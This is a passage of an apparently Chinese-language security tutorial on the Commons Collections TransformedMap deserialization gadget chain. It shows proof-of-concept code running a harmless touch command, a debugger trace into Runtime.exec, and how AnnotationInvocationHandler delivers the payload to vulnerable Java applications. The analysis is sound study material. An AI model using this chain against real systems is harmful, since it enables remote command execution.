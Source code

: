```java
        /*
         * 当TransformedMap中的key或value发生变化时，会触发相应的Transformer
         * 的transform()方法
         */
        entry.setValue( "othervalue" );
    }
}
```

通过Transformer机制间接使用反射方式执行Runtime.getRuntime().exec()。关于
Transformer机制，参[49]。这次使用TransformedMap利用链，后面还会演示LazyMap
利用链。TransformedMapExec是ReflectExec的TransformedMap利用链版本。

java -agentlib:jdwp=transport=dt_socket,address=192.168.65.23:8005,server=y,suspend=y \
-cp "commons-collections-3.1.jar:." \
TransformedMapExec "/bin/touch /tmp/scz_is_here"

jdb -connect com.sun.jdi.SocketAttach:hostname=192.168.65.23,port=8005

stop in java.lang.Runtime.exec(java.lang.String[])

  [1] java.lang.Runtime.exec (Runtime.java:485), pc = 0
  [2] sun.reflect.NativeMethodAccessorImpl.invoke0 (native method)
  [3] sun.reflect.NativeMethodAccessorImpl.invoke (NativeMethodAccessorImpl.java:62), pc = 100
  [4] sun.reflect.DelegatingMethodAccessorImpl.invoke (DelegatingMethodAccessorImpl.java:43), pc = 6
  [5] java.lang.reflect.Method.invoke (Method.java:498), pc = 56
  [6] org.apache.commons.collections.functors.InvokerTransformer.transform (InvokerTransformer.java:125), pc = 30
  [7] org.apache.commons.collections.functors.ChainedTransformer.transform (ChainedTransformer.java:122), pc = 12
  [8] org.apache.commons.collections.map.TransformedMap.checkSetValue (TransformedMap.java:169), pc = 5
  [9] org.apache.commons.collections.map.AbstractInputCheckedMapDecorator$MapEntry.setValue (AbstractInputCheckedMapDecorator.java:191), pc = 5
  [10] TransformedMapExec.main (TransformedMapExec.java:100), pc = 215

TransformedMapExec用到三个不同的Transformer:

ConstantTransformer
InvokerTransformer
ChainedTransformer

用JD-GUI打开commons-collections-3.1.jar，看这三个类，重点看各自的构造函数
和transform()，细节分析参[49]。

通过ChainedTransformer依次执行ConstantTransformer和各个InvokerTransformer。

8.2.2) sun.reflect.annotation.AnnotationInvocationHandler

如果某个类的readObject()会对Map类型的变量进行键值修改，并且这个Map变量可控，
那就可以在该类的反序列化过程中完成TransformedMapExec所演示的动作。

8u40的AnnotationInvocationHandler符合上述要求，8u232则不满足要求。

实例化一个AnnotationInvocationHandler类，将其成员变量memberValues赋为精心
构造的恶意TransformedMap对象，序列化后提交给不安全的Java应用。不安全的Java
应用在反序列化时会触发TransformedMap的变换函数，执行预设命令。
